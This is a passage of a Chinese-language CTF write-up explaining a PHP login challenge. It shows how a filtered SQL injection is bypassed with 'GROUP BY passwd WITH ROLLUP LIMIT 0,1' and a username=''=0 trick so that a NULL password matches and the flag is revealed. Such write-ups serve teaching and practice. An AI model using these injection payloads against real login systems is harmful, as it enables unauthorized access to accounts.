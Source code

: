     if ($result['passwd'] == $passwd){

        die('you did it and this is your flag: '.$flag);

    }

    else{

        die('Wrong password');

    }

}

else{

    die('Wrong username');

}

流程就是:

1.根据我们输入的username查询

2.将查到的密码和我们输入的比对

3.相同就获得flag

难点如下：

1.不知道用户名

2.存在许多过滤，比如关键的select等都被过滤了

所以可以知道这题不是一道单纯的注入题，那么有没有其他方法让我们的密码和用户名查询结果一致呢？

这里有一个方法：with rollup

我们假设用户名是admin，那么

SELECT * FROM users WHERE username='admin' group by passwd WITH ROLLUP

会产生一个password为NULL的行

而这里有一个检验:

mysqli_num_rows($query) == 1

所以我们需要Limit

SELECT * FROM users WHERE username='admin' group by passwd with rollup limit 0,1

此时查询出来的的admin用户的密码即为Null

而我们不输入密码，则passwd也为Null

此时可以匹配成功

那么第一个问题来了

我们不知道用户名怎么办？

这里我们可以用

SELECT * FROM users WHERE username=''=0 group by passwd with rollup limit 0,1
